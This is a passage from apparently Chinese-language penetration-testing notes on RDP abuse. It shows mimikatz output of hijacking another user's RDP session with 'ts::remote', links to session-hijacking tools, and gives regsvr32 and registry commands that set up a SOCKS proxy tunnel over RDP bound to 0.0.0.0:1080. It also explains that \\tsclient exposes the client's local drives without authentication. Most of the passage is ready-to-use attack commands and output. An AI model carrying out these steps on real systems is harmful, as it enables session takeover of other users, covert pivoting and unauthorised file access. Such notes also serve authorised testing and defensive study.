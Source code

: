 ```console
  Conn : 9/27/2023 10:47:54 PM
  curr : 9/27/2023 10:56:14 PM
  lock : no

Session: 65536 - RDP-Tcp
  state: Listen (6)
  user :  @
  lock : no

mimikatz # ts::remote /id:3
Asking to connect from 3 to current session

> Connected to 3

mimikatz # exit
Bye!
```

其它工具：

[https://github.com/crazywifi/RDP_SessionHijacking](https://github.com/crazywifi/RDP_SessionHijacking)

[https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)

## RDP and SOCKS Tunneling

使用 [SocksOverRDP](https://github.com/nccgroup/SocksOverRDP) 利用 RDP 协议搭建 SOCKS 服务：

```
# 注册 dll（会弹出通知窗）
regsvr32.exe SocksOverRDP-Plugin.dll
# 配置 SOCKS 服务地址为 0.0.0.0
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Terminal Server Client\Default\AddIns\SocksOverRDP-Plugin" /v "ip" /t REG_SZ /d 0.0.0.0 /f
# 配置 SOCKS 服务端口为 1080
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Terminal Server Client\Default\AddIns\SocksOverRDP-Plugin" /v "port" /t REG_SZ /d 1080 /f
# 运行 SOCKS 服务
SocksOverRDP-Server.exe

# 取消注册 dll
regsvr32.exe /u SocksOverRDP-Plugin.dll
```

## TSClient

tsclient 是通过远程桌面连接到远程计算机时，在远程计算机「网上邻居」中出现的一个机器名，实际为远程计算机分配给本机的名称。

在远程计算机中，可以通过 `\\tsclient\盘符` 访问用户（RDP 客户端）本地计算机。其访问方式类似于使用 smb 进行文件传输，虽然本质上都是 smb 协议，但是使用 tsclient 无需身份认证。

---
